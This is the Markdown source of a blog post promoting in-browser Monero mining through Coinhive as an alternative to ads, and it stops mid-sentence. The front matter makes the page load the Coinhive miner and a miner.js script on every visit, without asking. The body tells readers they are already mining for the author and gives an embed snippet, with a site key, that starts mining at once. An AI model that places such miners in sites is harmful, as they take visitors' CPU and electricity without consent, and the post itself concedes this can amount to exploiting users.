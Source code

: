 ```yaml
---
layout: post
title: Mine Monero in Browser
excerpt: "Mine Monero just by visiting your a website."
image: "images/daria-sukhorukova-6338.jpg"
imageattribution: "Daria Sukhorukova"
imageattributionlink: https://unsplash.com/@dariasukhorukova
tags:
  - guide
  - blog
script: "miner.js"
externalscript: "https://coin-hive.com/lib/coinhive.min.js"
---
```


## Current State of the Free Web

**Ads suck.**

I've blogged about ads before and how to use [Google AdSense][0].
I have AdSense enabled on this site and it earns next to nothing.
It's intrusive and a lot of people view it negatively.

However, there aren't many non intrusive alternatives. But here is one.

## Monero Mining

Monero is a blockchain based currency that has a strong emphasis on privacy.
It's constantly under development and seeing steady increases in value.

[Coinhive][1] has created a Javascript Monero mining solution that enables websites to earn money without affecting the visual representation of the site.
Mining Monero requires some computation on the users CPU, and the successes from mining are fed directly back into the account of the website owner.

Since you're on this page, you're mining Monero for me right now.

**Thank you for supporting me!**

*Unless your ad blocker is blocking it! Oh no! Check below to find out.*

## Implementation

Implementation is trivial. Simply include the Coinhive script on your page, and call the start function.

```
<script src="https://coin-hive.com/lib/coinhive.min.js"></script>
<script>
	// Replace this with your 'site key'.
	var miner = new CoinHive.Anonymous('MCtA4Mc6TUNeLD9cOrkuPw06B2Ulz4Ic');
	miner.start();
</script>
```

They also offer callbacks so you can display this information to the user, like this:

> Hashes per Second: **<span id="hashesPerSecond">Loading...</span>**
>  
> Total Hashes: **<span id="totalHashes">Loading...</span>**
>  
> Accepted Hashes: **<span id="acceptedHashes">Loading...</span>**

<button id="toggleMiner" disabled="true">Loading...</button>

If this doesn't update for you, you probably have an ad blocker installed that is blocking the miner.

## Future Work

The major downside of this is that this causes a huge utilisation on the CPU.
While most agree they prefer this solution over ads, this can still be viewed as exploiting users without providing them anything in return, (not including your site content).

Coinhive has a deep API that allows you to associate mining with particular users so you can record the number of hashes provided and in return provide the user with rewards.

The [real world use case][2] on the Coinhive website is an incredibly persuasive example of this.

## Closing

Over the next couple of *time periods* you may see a transistion

[0]: https://www.google.com/adsense
[1]: https://coin-hive.com/
[2]: https://coin-hive.com/#use-case
